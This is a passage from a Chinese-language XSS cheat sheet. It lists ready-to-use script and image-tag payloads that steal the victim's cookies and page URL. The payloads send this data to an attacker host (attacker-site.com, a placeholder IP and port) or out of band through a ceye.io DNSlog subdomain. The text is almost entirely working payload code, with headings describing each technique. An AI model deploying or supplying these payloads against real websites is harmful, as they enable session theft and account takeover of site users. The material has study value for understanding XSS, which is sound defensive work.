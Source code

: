 ```js
<script>new Image().src="http://attacker-site.com/cookie.php?cookie="+document.cookie;</script>
```

#### 2、将当前页面的 URL 和 Cookie 发送到攻击者的服务器：

```js
<img src="http://attacker-site.com/logger.php?url="+encodeURIComponent(document.location.href)+"&cookie="+encodeURIComponent(document.cookie)" />
```

#### 3、利用 XMLHttpRequest 对象发送 HTTP 请求，将 Cookie 数据发送到攻击者的服务器：

```js
<script>
    var xhr = new XMLHttpRequest(); 
	xhr.open("POST", "http://attacker-site.com/logger.php", true); 
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send('url=' + encodeURIComponent(document.location.href) + '&cookie=' + encodeURIComponent(document.cookie));
</script>
```

#### 4、利用 window.location 对象向攻击者的服务器提交请求，附带当前页面的 URL 和 Cookie：

```js
<script>window.location="http://attacker-site.com/logger.php?url="+encodeURIComponent(document.location.href)+"&cookie="+encodeURIComponent(document.cookie);</script>
```

#### 5、利用 document.write 返回页面中的Cookie，并将其拼接到目标URL中，作为参数发送到指定的 IP 地址和端口

```
<script>document.write('<img src="http://ip:端口号/'+document.cookie+'"/>')</script>
```

#### 6、通过 window.open 方法打开了指定的攻击机地址，并拼接、传递cookie

```js
<img src=1 onerror=window.open("http://ip:端口号/?id="+document.cookie)>
```

 

### 利用DNSlog带外数据

#### ceye.io

利用ceye.io外带出管理员cookie 

![image-20240820170623018](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820170623018.png)

> `1s5a2k.ceye.io`

```js
<script>var img = document.createElement("img");img.src = "http://1s5a2k.ceye.io/log?"+escape(document.cookie);document.body.appendChild(img);</script>
```
